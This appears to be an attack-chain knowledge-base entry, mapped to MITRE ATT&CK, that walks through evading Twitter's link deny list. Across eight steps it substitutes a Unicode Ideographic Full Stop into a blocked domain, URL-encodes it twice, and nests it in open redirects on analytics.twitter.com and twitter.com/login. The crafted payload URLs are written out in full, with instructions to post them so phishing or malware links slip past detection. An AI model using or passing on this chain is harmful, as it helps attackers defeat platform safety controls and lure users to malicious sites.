

---
tags:
  - open-redirect
  - unicode-bypass
  - phishing
  - domain-validation-bypass
  - twitter
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Defense Evasion]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Craft-Unicode-Encoded-Forbidden-URL]]'
  - '[[procedures/Build-Analytics-Open-Redirect]]'
  - '[[procedures/Chain-Twitter-Login-Redirect]]'
  - '[[procedures/Post-and-Execute-Malicious-Link]]'
step_count: 8
techniques:
  - '[[Drive-by Compromise]]'
  - '[[T1566.002]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:24:31.636Z'
description: >-
  A multi-stage attack exploiting open redirects on twitter.com and
  analytics.twitter.com combined with Unicode substitution in domains to bypass
  Twitter's domain deny list, allowing posting of links to forbidden sites like
  ddosecrets.com without triggering blocks or warnings.
skill_level: intermediate
impact_level: high
id: 6b001f92-800a-425f-aeb7-b2b0b2b3efc9
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Defense Evasion]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
  - '[[T1566.002]]'
  - '[[Exploit Public-Facing Application]]'
---
# Chained Open Redirects and Unicode Ideographic Full Stop Bypass for Twitter Link Blocking Evasion

Multi-stage attack chain demonstrating how to bypass Twitter's domain deny list using Unicode substitutions and chained open redirects, enabling the posting of links to unsafe domains in tweets and DMs without detection or warnings.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 8 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- Web browser for testing redirects
- URL encoder tool (e.g., online encoder or browser dev tools)

### Target Environment

- Twitter web platform (twitter.com and analytics.twitter.com)
- No specific ports or services beyond standard HTTPS (443)

### Initial Access Requirements

- Valid Twitter account with posting privileges
- No special credentials beyond standard login
- Internet access to craft and post URLs

## Detailed Attack Procedures

### Step 1: Choose the Target URL
procedure: [[procedures/Craft-Unicode-Encoded-Forbidden-URL]]

**Objective**: Select a forbidden domain that Twitter's deny list blocks, such as ddosecrets.com, to prepare for substitution.

**Instructions**: Identify a target unsafe site like https://ddosecrets.com that is blocked by Twitter's link validation.

**Expected Output**: Base URL: https://ddosecrets.com

**Success Indicators**:
- Domain confirmed as blocked when attempting direct post on Twitter

### Step 2: Replace ASCII Periods with URL-Encoded Ideographic Full Stop
procedure: [[procedures/Craft-Unicode-Encoded-Forbidden-URL]]

**Objective**: Substitute the ASCII period (.) in the domain with the URL-encoded Ideographic Full Stop (U+3002, %E3%80%82) to disguise it from validation.

**Instructions**: Manually replace '.' with '%E3%80%82' in the domain part: https://ddosecrets%E3%80%82com

**Expected Output**: Modified URL: https://ddosecrets%E3%80%82com

**Success Indicators**:
- URL appears similar but uses Unicode equivalent

### Step 3: URL-Encode the Modified URL
procedure: [[procedures/Craft-Unicode-Encoded-Forbidden-URL]]

**Objective**: Encode the Unicode-modified URL to prepare for embedding in redirects.

**Instructions**: URL-encode the entire modified URL from Step 2, resulting in https%3A%2F%2Fddosecrets%25E3%2580%2582com

**Expected Output**: Single-encoded URL: https%3A%2F%2Fddosecrets%25E3%2580%2582com

**Success Indicators**:
- Encoded string ready for parameter insertion

### Step 4: Append the Encoded URL to the Analytics Open Redirect Endpoint
procedure: [[procedures/Build-Analytics-Open-Redirect]]

**Objective**: Leverage the open redirect on analytics.twitter.com by appending the encoded URL to the 'rd' parameter.

**Instructions**: Append the encoded URL from Step 3 to https://analytics.twitter.com/daa/0/daa_optout_actions?action_id=4&rd= and add an encoded question mark (%3F): https://analytics.twitter.com/daa/0/daa_optout_actions?action_id=4&rd=https%3A%2F%2Fddosecrets%25E3%2580%2582com%3F

**Expected Output**: Analytics redirect URL with target embedded

**Success Indicators**:
- URL constructed without errors

### Step 5: URL-Encode the Full Analytics Redirect URL
procedure: [[procedures/Build-Analytics-Open-Redirect]]

**Objective**: Double-encode the analytics URL to evade further validation when chaining.

**Instructions**: Encode the full URL from Step 4: https%3A%2F%2Fanalytics.twitter.com%2Fdaa%2F0%2Fdaa_optout_actions%3Faction_id%3D4%26rd%3Dhttps%253A%252F%252Fddosecrets%2525E3%252580%252582com%253F

**Expected Output**: Double-encoded analytics URL

**Success Indicators**:
- Double-encoded string valid for next chain step

### Step 6: Append the Double-Encoded URL to the Twitter Login Redirect Parameter
procedure: [[procedures/Chain-Twitter-Login-Redirect]]

**Objective**: Chain the analytics redirect into Twitter's login redirect to complete the bypass path.

**Instructions**: Append the double-encoded URL from Step 5 to https://twitter.com/login?redirect_after_login=: https://twitter.com/login?redirect_after_login=https%3A%2F%2Fanalytics.twitter.com%2Fdaa%2F0%2Fdaa_optout_actions%3Faction_id%3D4%26rd%3Dhttps%253A%252F%252Fddosecrets%2525E3%252580%252582com%253F

**Expected Output**: Final chained URL ready for posting

**Success Indicators**:
- Chained URL parses correctly in browser

### Step 7: Log in to Twitter and Post the Crafted URL as a Tweet
procedure: [[procedures/Post-and-Execute-Malicious-Link]]

**Objective**: Post the chained URL on Twitter without triggering the deny list.

**Instructions**: Log in to Twitter, create a new tweet, and paste the URL from Step 6. Submit the tweet.

**Expected Output**: Tweet posts successfully without blocking or t.co shortening

**Success Indicators**:
- Link appears in tweet as-is, no interstitial or warning

### Step 8: Click the Malicious Link in the Tweet
procedure: [[procedures/Post-and-Execute-Malicious-Link]]

**Objective**: Verify the redirect chain leads to the forbidden domain without warnings.

**Instructions**: Click the link in the posted tweet. If not logged in, it prompts login; otherwise, it redirects through the chain to the target domain.

**Expected Output**: Browser navigates to ddosecrets.com (or equivalent) via redirects

**Success Indicators**:
- No Twitter warning page
- Successful arrival at forbidden site

## Attack Chain Summary

### Key Achievements

1. Bypassed Twitter's domain deny list using Unicode Ideographic Full Stop substitution
2. Chained open redirects on analytics.twitter.com and twitter.com/login to evade validation
3. Enabled posting of phishing/malware links in tweets and DMs without detection

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]] Drive-by Compromise
- [[T1566.002]] Spearphishing Link
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Defense Evasion]] Defense Evasion

---
*Last updated: 2023-10-01T00:00:00Z*
